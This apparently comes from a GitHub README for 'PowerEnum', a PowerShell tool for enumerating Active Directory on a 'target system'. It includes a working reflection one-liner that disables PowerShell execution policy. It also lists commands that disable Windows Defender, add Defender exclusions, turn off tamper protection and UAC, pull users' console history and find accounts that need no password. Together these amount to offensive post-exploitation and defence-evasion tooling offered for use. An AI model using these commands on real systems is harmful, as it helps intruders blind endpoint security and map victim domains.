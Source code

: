 # PowerEnum
Powershell script for enumerating Active Directory. Nothing new or ground breaking, just a cool project to further develop my knowledge of powershell, Windows and specifically AD.

# Usage

Download the **powerenum.ps1** script and get it onto your target system. This can be done multiple ways which you can figure out for yourself.

Once on the system you will need to import the script to be able to use it.

```posh
Import-Module powerenum.ps1
```

You will likely need to change the execution policy to run this script:

```posh
Set-ExecutionPolicy Bypass
```

If this does not work, you can run the following code to disable execution policy:

```posh
# Create the function
function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))}
# Execute the function
Disable-ExecutionPolicy
```

### Commands

##### Domain Information Gathering
```posh
# Retrieve some initial information about the domain including domain info and connected systems
Get-Basics 
# Get-Basics has 3 optional arguments
Get-Basics -IPAddress:$true -DomainInformation:$true -ConnectedSystems:$true
# Find listening ports and the service running on that port
Get-Listening

# Retrieve all the admins in the domain
Get-Admins
# Retrieve all OUs in the domain
Get-OUs
# Retrieve all groups in the domain
Get-AllGroups
# Retrieve all users in the domain
Get-AllUsers

# Retrieve all users who don't require a password
Get-NoPass
# Retrieve console history for a specified user
Get-History
# Disable Windows defender
Disable-Defender
# Add a folder to exclude from defender scans
Add-DefenderExclusion -Path <PATH>
# Disable tamper protection on the system
Disable-TamperProtection
# Disable UAC
Disable-UAC
```
